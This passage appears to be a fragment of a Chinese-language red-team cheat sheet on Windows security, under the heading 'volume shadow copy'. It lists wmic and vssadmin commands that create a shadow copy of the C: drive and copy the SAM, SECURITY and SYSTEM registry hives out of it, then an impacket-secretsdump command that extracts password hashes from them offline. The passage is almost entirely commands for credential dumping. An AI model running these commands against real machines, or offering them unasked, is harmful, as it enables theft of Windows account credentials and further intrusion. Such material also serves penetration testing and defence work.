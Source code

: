 ![](../../../../assets/img/Security/RedTeam/OS安全/Windows安全/4.png)

**卷影复制**

```bash
wmic shadowcopy call create volume='c：\'       # 先创建 c 盘的 shadowscopy
# 或者
vssadmin create shadow /for=C:

vssadmin list shadows   # 查看
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\sam c:\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\security c:\security
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\system c:\system

# 用 impacket-secretsdump 来进行解密
impacket-secretsdump -sam sam -security security -system system LOCAL
```

![](../../../../assets/img/Security/RedTeam/OS安全/Windows安全/5.png)

---